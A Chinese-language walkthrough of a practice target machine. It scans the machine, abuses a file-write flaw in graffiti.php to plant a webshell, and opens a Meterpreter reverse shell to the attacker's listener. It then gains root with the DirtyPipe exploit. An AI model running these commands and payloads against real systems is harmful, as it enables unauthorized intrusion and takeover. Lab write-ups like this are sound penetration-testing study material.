很简单的靶机，只需要一个够好的扫描字典即可练习

<!-- more -->

# 信息搜集

惯例先nmap扫主机ip和端口

```bash
nmap 192.168.23.0/24
```



三个端口开放， ip是192.168.23.163

22是ssh先不看。80是http，看一下



没什么信息。看看81端口



81端口要登录，不知道用户名密码，放弃，还看80端口。

扫一下目录

```bash
dirb http://192.168.23.163/ -X .txt,.php
```



只有一个robots.txt，看看



没什么有用的信息。

换一个目录扫描工具，找个更大的字典再扫一遍

```bash
gobuster dir -u http://192.168.23.163/ -x .txt,.php -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
```



找到了graffiti.php和graffiti.txt，访问graffiti.php看看是什么



一个简单的输入信息发布挂上去的脚本。试了试没有XSS，换个思路，看一下html源码。



input标签提示有一个file参数，值为graffiti.txt，请求方式为POST，用burp抓个包看看



有的，猜测这里是个文件包含漏洞。用php伪协议看看graffiti.php源码能不能获取到。



获取到了源码



那就好办了。写个一句话，挂到一个新的php上去



然后send，用蚁剑连一下。



msfvenom写个反弹shell

```bash
msfvenom -p php/meterpreter/reverse_tcp
```

一般默认即可，ip就是你的攻击机ip，端口默认4444。把生成的反弹shell挂到backdoor.php上去



msfconsole准备监听

```bash
msfconsole
use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set LHOST 192.168.23.159
set LPORT 4444
run
```

访问靶机上挂了反弹shell的php，也就是[http://192.168.23.163/backdoor.php](http://192.168.23.163/backdoor.php)



监听成功，写个交互，然后看一下内核版本

```bash
ls /boot
```



linux 5.10内核，找个PoC跑一下

```bash
searchsploit linux 5.10
# Linux Kernel 5.8 < 5.16.11 - Local Privilege Escalation (DirtyPipe)                   | linux/local/50808.c
searchsploit -m linux/local/50808.c
gcc 50808.c -o 50808 -static
```

编译好后在蚁剑那边传上去

然后赋一个可执行权限

```bash
chmod +x 50808
```

PoC需要一个具有 SUID 权限的文件才能提取。找一下有没有

```bash
find / -perm -u=s -type f 2>/dev/null
```



有的兄弟，有的

那就随便找一个作为参数

```bash
./50808 /usr/bin/su
```



成功提权
